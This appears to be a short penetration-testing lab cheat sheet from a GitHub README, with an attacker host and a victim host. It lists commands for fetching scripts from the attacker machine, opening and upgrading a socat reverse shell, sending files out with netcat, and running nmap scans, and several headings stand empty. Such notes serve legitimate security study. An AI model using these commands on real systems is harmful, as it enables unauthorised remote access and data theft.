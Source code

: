 *10.10.10.10 -Kali host && 10.10.10.77 - Victim host
# Useful Commands

> This section will include commands / code I used in the lab environment that I found useful

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Kali:   ```nc -lvp 4444 > file.txt```

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

## Reverse shells 


# Enumeration

> Enumeration is the most important thing you can do, at that inevitable stage where you find yourself hitting a wall, 90% of the time it will be because you haven’t done enough enumeration

### Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.77```

UDP Scan:

```nmap -sU -sV -p- 10.10.10.77```

# Privilege Escalation

# Some Scripts

# References
